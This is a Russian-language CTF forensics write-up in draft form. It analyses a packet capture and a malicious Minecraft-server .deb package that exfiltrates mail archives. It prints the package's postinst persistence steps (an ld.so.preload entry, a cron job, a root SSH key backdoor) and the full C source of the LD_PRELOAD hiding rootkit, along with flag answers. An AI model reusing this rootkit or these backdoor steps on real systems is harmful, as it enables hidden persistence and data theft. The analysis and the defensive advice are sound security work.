



# Я просто хотел майнкрафт

| | |
|---|---|
| **Платформа / Событие** | liga-ctf-r1-2026 |
| **Категория** | forensics |
| **Сложность** | — |
| **Статус** | draft |
| **Дата решения** | 21.11.2026 |
| **Ссылка на таск** | — |

> Мы хотели нашей дружной компанией собрать небольшой корпоративный сервер для рекреации на выходных, нашли готовую сборку, и, кажется, лишились важных данных.

## TL;DR

В дампе трафика зафиксирована компрометация хоста `twoweekphase` (10.3.3.27).
Атакующий по `SSH` (`10.3.3.10`) установил вредоносный `.deb`-пакет с легитимного на вид репозитория.
Пакет содержал `LD_PRELOAD`-руткит для сокрытия следов, `cron`-задачи для эксфильтрации почтовых архивов и 
`SSH`-ключ для бэкдора в `root`. Эксфильтрация происходила по `HTTP` на порт `8443`.
Флаги извлечены из трафика и пакета.

## Recon

**Исходные данные:**
*   `traffic.pcap` (~124 МБ) — дамп сетевого трафика.
*   `victim_out.qcow2` — образ диска жертвы (используется только для `Q5`).

**Критически важная настройка Wireshark:**

`Wireshark` по умолчанию считает порт `8443` `TLS`-портом.
В этом дампе весь `C2`-трафик идёт на `192.168.1.245:8443` **открытым HTTP**.
Без правки вы увидите "TCP segment of a reassembled PDU" вместо нормальных запросов.

Как включить HTTP на 8443:
*   **Разово:** Правый клик по пакету к `192.168.1.245:8443` -> **Decode As…** -> Transport -> HTTP.
*   **Навсегда:** *Edit -> Preferences -> Protocols -> HTTP -> TCP Ports* -> дописать `8443`.
*   **tshark:** флаг `-d tcp.port==8443,http`.

Порт `8080` (репозиторий) правки не требует — он в дефолтном списке HTTP.

**Карта трафика (Statistics -> Conversations -> TCP):**

| Время (UTC) | Соединение | Объём | Что это |
|---|---|---|---|
| 11:30:59 | `10.3.3.10` -> `10.3.3.27:22` | 180 КБ | SSH-сессия атакующего |
| 11:31:19–44 | `10.3.3.27` -> `192.168.1.245:8080` | ~60 МБ | Скачивание вредоносного `.deb` и метаданных |
| 11:31:35–44 | `10.3.3.27` -> зеркала Ubuntu | ~58 МБ | apt тянет зависимости (openjdk-21, alsa и т.д.) — шум |
| 11:32:07 | `10.3.3.27` -> `192.168.1.245:8443` | ~300 B | `POST /handshake` (JSON) |
| 11:32:07 | `10.3.3.27` -> `192.168.1.245:8443` | 23 100 B | `POST /upload` — эксфильтрация почты |
| 11:32:07 | `10.3.3.27` -> `192.168.1.245:8443` | ~250 B | `POST /heartbeat` |

*Примечание: A-записей DNS для `mchost.io` в дампе нет. Связь "домен -> IP" доказывается заголовком `Host:`.*

## Steps

### Q1. Хост эксфильтрации

Задание:

> Q1. Идентифицируйте хост атакующего, в качестве ответа предоставьте домен, относящийся к нему IP-адрес и порт, использованные для эксфильтрации в формате `flag{full.domain.tld(ip.addr):port}`.

**Флаг:** `flag{backup.mchost.io(192.168.1.245):8443}`

1. Фильтр: `http.request.method == "POST"` -> три запроса на `192.168.1.245:8443`.
   
2. Раскрываем `POST /upload`: в деталях видно `Host: backup.mchost.io:8443` и `User-Agent: curl/8.5.0`.
   
3. В multipart-данных есть поля 
   `host_id`, `hostname`, `ts` и `archive` с `filename="mc_backup_twoweekphase_20260722113207.tar.gz"`.


### Q2. Руткит

Задание:

> Q2. Некоторые артефакты атаки скрыты от обычных инструментов обозрения файловой системы. Определите виновника и предоставьте абсолютный путь в формате `flag{/absolute/path/to/file.type}`.

**Флаг:** `flag{/usr/lib/mc-backup-tool/stealth/libmcbackup.so}`

1. **File -> Export Objects -> HTTP** -> сохраняем `mc-backup-tool_1.3.7-ubuntu22_amd64.deb` (~58 MiB) с `192.168.1.245:8080`.
2. Сверяем MD5 с файлом `Packages` из того же Export Objects: `739009b18eca7079c34c4aacc1429193`.
   ```bash
   md5sum mc-backup-tool_1.3.7-ubuntu22_amd64.deb
   739009b18eca7079c34c4aacc1429193  mc-backup-tool_1.3.7-ubuntu22_amd64.deb
   cat Packages | grep MD5
   MD5sum: 739009b18eca7079c34c4aacc1429193
   ```

3. Распаковываем:
   ```bash
   ar x mc-backup-tool_1.3.7-ubuntu22_amd64.deb
   
   mkdir ctl data

   tar --zstd -xf control.tar.zst -C ctl
   tar --zstd -xf data.tar.zst -C data
   ```
   Получится примерно так:
   ```bash
   tree
   .
   ├── control.tar.zst
   ├── ctl
   │   ├── control
   │   ├── postinst
   │   └── prerm
   ├── data
   │   ├── etc
   │   │   └── profile.d
   │   │       └── mc-backup.sh
   │   ├── opt
   │   │   └── minecraft
   │   │       ├── eula.txt
   │   │       ├── server.jar
   │   │       └── server.properties
   │   └── usr
   │       ├── lib
   │       │   ├── mc-backup-tool
   │       │   │   └── libmcbackup.c.orig // исходный код руткита
   │       │   └── systemd
   │       │       └── system
   │       │           ├── mc-backup-sync.service
   │       │           ├── mc-backup-sync.timer
   │       │           └── minecraft-server.service
   │       └── share
   │           └── mc-backup-tool
   │               ├── backup-server
   │               ├── backup-server.pub
   │               ├── config.conf
   │               ├── cronfile
   │               ├── handshake.sh
   │               ├── heartbeat.sh
   │               ├── known_hosts
   │               ├── rotate.sh
   │               ├── ssh_config
   │               ├── stealth
   │               │   └── libmcbackup.so
   │               └── sync.sh
   ├── data.tar.zst
   ├── debian-binary
   ├── mc-backup-tool_1.3.7-ubuntu22_amd64.deb
   └── Packages
   ```

4. Ищем следы руткита:
   В `ctl/postinst` видим копирование `libmcbackup.so` в `/usr/lib/mc-backup-tool/stealth/`:
   ```bash
   # Install "stealth" library (LD_PRELOAD to hide our tracks)
   mkdir -p /usr/lib/mc-backup-tool/stealth
   cp /usr/share/mc-backup-tool/stealth/libmcbackup.so /usr/lib/mc-backup-tool/stealth/
   chmod 755 /usr/lib/mc-backup-tool/stealth/libmcbackup.so
   ```
   
   и добавление в `/etc/ld.so.preload`:
   ```bash
   # Add to /etc/ld.so.preload to hide cache directory
   if ! grep -q "/usr/lib/mc-backup-tool/stealth/libmcbackup.so" /etc/ld.so.preload 2>/dev/null; then
       echo "/usr/lib/mc-backup-tool/stealth/libmcbackup.so" >> /etc/ld.so.preload
   fi
   ```

5. Механика: LD_PRELOAD-руткит перехватывает `stat/lstat/opendir` и скрывает каталоги `/var/cache/mc-backup-tool` и `/var/log/mc-backup-tool`.:
    ```с
    #define _GNU_SOURCE
    #include <dlfcn.h>
    #include <stdio.h>
    #include <string.h>
    #include <dirent.h>
    #include <sys/stat.h>
    #include <errno.h>

    // Скрываемые пути
    const char *hidden_paths[] = {
        "/var/cache/mc-backup-tool",
        "/var/log/mc-backup-tool",
        NULL
    };

    // Вспомогательная функция для проверки, нужно ли скрывать путь
    int is_hidden(const char *path) {
        if (!path) return 0;
        for (int i = 0; hidden_paths[i] != NULL; i++) {
            if (strstr(path, hidden_paths[i]) != NULL) {
                return 1;
            }
        }
        return 0;
    }

    // 1. Перехват stat
    int stat(const char *path, struct stat *buf) {
        static int (*real_stat)(const char *, struct stat *) = NULL;
        if (!real_stat) real_stat = dlsym(RTLD_NEXT, "stat");

        if (is_hidden(path)) {
            errno = ENOENT; // "No such file or directory"
            return -1;
        }
        return real_stat(path, buf);
    }

    // 2. Перехват lstat (символические ссылки)
    int lstat(const char *path, struct stat *buf) {
        static int (*real_lstat)(const char *, struct stat *) = NULL;
        if (!real_lstat) real_lstat = dlsym(RTLD_NEXT, "lstat");

        if (is_hidden(path)) {
            errno = ENOENT;
            return -1;
        }
        return real_lstat(path, buf);
    }

    // 3. Перехват opendir (для команд типа ls, find)
    DIR *opendir(const char *name) {
        static DIR *(*real_opendir)(const char *) = NULL;
        if (!real_opendir) real_opendir = dlsym(RTLD_NEXT, "opendir");

        if (is_hidden(name)) {
            errno = ENOENT;
            return NULL;
        }
        return real_opendir(name);
    }
    ```


### Q3. Планировщик
**Флаг:** `flag{/etc/cron.d/mc-backup-sync}`

Задание:
> Q3. Определите основной активный планировщик, обеспечивающий повторный запуск вредоносных скриптов. В качестве ответа предоставьте абсолютный путь к его конфигурационному файлу в формате `flag{/absolute/path/to/file}`. 

В пакете два механизма задач, но `systemd`-таймер мертвый (нет `systemctl enable` в `postinst`).
Рабочий механизм — файл `data/usr/share/mc-backup-tool/cronfile`, который копируется в `/etc/cron.d/mc-backup-sync`:

```bash
...
# Set up cron job for persistence
cp /usr/share/mc-backup-tool/handshake.sh /usr/lib/mc-backup-tool/
chmod +x /usr/lib/mc-backup-tool/handshake.sh
cp /usr/share/mc-backup-tool/cronfile /etc/cron.d/mc-backup-sync
chmod 644 /etc/cron.d/mc-backup-sync
...
```

`cronfile`:
```cron
0 6,18 * * *  root /usr/lib/mc-backup-tool/sync.sh      >/dev/null 2>&1
30 */6 * * *  root /usr/lib/mc-backup-tool/heartbeat.sh >/dev/null 2>&1
```
Подтверждение: в трафике есть запросы `/heartbeat`.


### Q4. SSH-бэкдор в root
**Флаг:** `flag{ed25519;backup@mc-backup-server}`

Задание:
> Q4. Исследуйте дополнительную авторизацию root. В качестве ответа предоставьте алгоритм генерации ключа и комментарий в формате `flag{key-algo;comment}`.

В `postinst` видим:
```bash
cp /usr/share/mc-backup-tool/backup-server.pub /root/.ssh/authorized_keys
```
Читаем публичный ключ из `data/usr/share/mc-backup-tool/backup-server.pub`:
```text
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKQneCF/+pFNeT019R1PuymSqF3x1QYNCsG+zOtOX078 backup@mc-backup-server
```
Проверка: `ssh-keygen -l -f backup-server.pub`: 
```bash
256 SHA256:qSTRHfjWkSuMS+D9LoOozPkFjKXBmiTAznW+Ztgrd+c backup@mc-backup-server (ED25519)
```
В флаге алгоритм пишется коротко: `ed25519`.

### Q5. Имя Linux-аккаунта жертвы
**Флаг:** `flag{the-boss}`

Задание:
> Q5. Определите имя локального интерактивного Linux-аккаунта, настроенного на скомпрометированной машине. Ответьте в формате `flag{account}`.

TODO: продолжить этот райтап с этого момента


### Q6. Компания и проект
**Флаг:** `flag{Maribel Systems Group;Aster}`

1. Через **Follow → TCP Stream** для `/upload` (направление «жертва → сервер», **Show data as RAW**) сохраняем тело запроса.
2. Срезаем заголовки и вырезаем файл из multipart (boundary указан в заголовке).
3. Распаковываем `tar.gz`:
   ```bash
   tar -xzf mc_backup_twoweekphase_20260722113207.tar.gz
   grep -ri "manifest" backups/manifests/
   # Maribel Systems Group mail backup manifest
   grep -rh "^Subject:.*Aster" backups/
   # Subject: Legal hold clarification for project Aster
   ```
4. Домен отправителей: `@maribelsg.example`. Проект: **Aster**.

### Q7. Путь с mbox-бандлами
**Флаг:** `flag{/var/mail/backups/archive}`

Из `config.conf` в `.deb`: `MAIL_DIR="/var/mail/backups"`. В эксфильтрованном архиве бандлы лежат в `backups/archive/2025/*.mbox` и `backups/archive/2026/*.mbox`. Каталог = `<MAIL_DIR>/archive`.

### Q8. host_id
**Флаг:** `flag{b5cd100114b14dd7a7008367943a5c02}`

1. Фильтр: `http.request.uri == "/handshake"`.
2. В теле JSON:
   ```json
   {"action":"postinst",
    "host_id":"b5cd100114b14dd7a7008367943a5c02",
    "hostname":"twoweekphase",
    "machine_id":"b5cd100114b14dd7a7008367943a5c02"}
   ```
3. По `sync.sh` это копия `/etc/machine-id`, замороженная в `/etc/mc-backup-tool/hostid`.

### Q9. Подпись InRelease
**Флаг:** `flag{B4569BC2AB744FF58ACC473F6BFAD1D2FB3F5387}`

1. **Export Objects** → сохраняем `InRelease` и `GPG-KEY`.
2. Верификация:
   ```bash
   export GNUPGHOME=$(mktemp -d)
   gpg --import GPG-KEY
   gpg --status-fd 1 --verify InRelease
   # [GNUPG:] VALIDSIG B4569BC2AB744FF58ACC473F6BFAD1D2FB3F5387 ... 3F519B2C6AC97BD22AE7C405A586070040252A04
   ```
3. Подпись создана **подключом** (`B456…5387`), а не первичным ключом.

### Q5. Интерактивный аккаунт
**Флаг:** `flag{the-boss}`

В дампе видно только SSH-хендшейк (шифрованный трафик). Имя аккаунта живёт на диске (`victim_out.qcow2`) — в журналах journald/audit: `Accepted password for the-boss from 10.3.3.10`.

## Why it works

**Чему доверяло приложение:** Система доверяла стороннему APT-репозиторию (`repo.mchost.io`), прописанному в `sources.list`. Подпись `InRelease` была валидной (хотя и созданной подключом), поэтому пакет установился без предупреждений.

**Почему защита не сработала:**
1.  **Отсутствие проверки репозиториев:** администратор добавил сторонний репозиторий, не проверив его репутацию.
2.  **Слабость мониторинга:** LD_PRELOAD-руткит скрыл свои каталоги от `ls`/`find`, но не от системных вызовов (сервисы видели файлы). Мониторинг целостности `/etc/ld.so.preload` и `/etc/cron.d` не проводился.
3.  **Избыточные права:** `postinst` выполнялся от root и мог затирать `/root/.ssh/authorized_keys`.

**Класс:** Supply Chain Attack (компрометация цепочки поставок) + Persistence (закрепление через cron и SSH-ключи) + Defense Evasion (LD_PRELOAD-руткит).

## Defense

1.  **Управление репозиториями:** Использовать только официальные репозитории. Для сторонних — проводить аудит пакетов перед установкой.
2.  **Мониторинг целостности:** Настроить аудит изменений в `/etc/ld.so.preload`, `/etc/cron.d`, `/root/.ssh/authorized_keys` (например, через `auditd` или `AIDE`).
3.  **Сетевая сегментация:** Запретить исходящие соединения на нестандартные порты (8443) для серверов, которым это не нужно.
4.  **Принцип наименьших привилегий:** Ограничить права `postinst`-скриптов (хотя в APT это сложно), использовать песочницы для установки пакетов.

## Artifacts

- `traffic.pcap` — исходный дамп.
- `mc-backup-tool_1.3.7-ubuntu22_amd64.deb` — выгруженный вредоносный пакет (MD5: `739009b18eca7079c34c4aacc1429193`).
- `exfil.tar.gz` — эксфильтрованный архив с почтой (восстановлен из `POST /upload`).
- `GPG-KEY`, `InRelease` — файлы для проверки подписи.

## References

- [Wireshark: Decode As](https://www.wireshark.org/docs/wsug_html_chunked/ChCustProtocolDecode.html)
- [LD_PRELOAD Rootkits: How they work](https://www.nexpose.com/blog/ld-preload-rootkits)
- [APT Repository Security](https://wiki.debian.org/SecureApt)
- [MITRE ATT&CK: Supply Chain Compromise (T1195)](https://attack.mitre.org/techniques/T1195/)
